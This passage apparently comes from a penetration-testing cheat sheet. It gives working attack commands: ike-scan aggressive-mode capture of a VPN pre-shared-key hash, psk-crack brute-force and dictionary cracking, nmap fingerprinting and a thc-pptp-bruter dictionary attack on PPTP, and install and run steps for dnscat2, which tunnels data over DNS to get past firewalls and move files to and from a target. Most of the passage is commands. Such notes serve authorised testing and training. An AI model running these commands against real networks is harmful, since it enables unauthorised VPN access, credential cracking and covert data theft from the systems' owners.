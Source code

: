 ```
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

**Step 4: Use psk-crack to crack the PSK hash**

Some more advanced psk-crack options below:

```
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```

**PPTP Hacking**

Identifying PPTP, it listens on TCP: 1723

**NMAP PPTP Fingerprint:**

```
nmap –Pn -sV -p 1723 TARGET(S)
```

**PPTP Dictionary Attack**

```
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```

#### DNS Tunneling <a href="#dns-tunneling" id="dns-tunneling"></a>

Tunneling data over DNS to bypass firewalls.

dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

**Attacking Machine**

Installtion:

```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```

Run dnscat2:

```
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
```

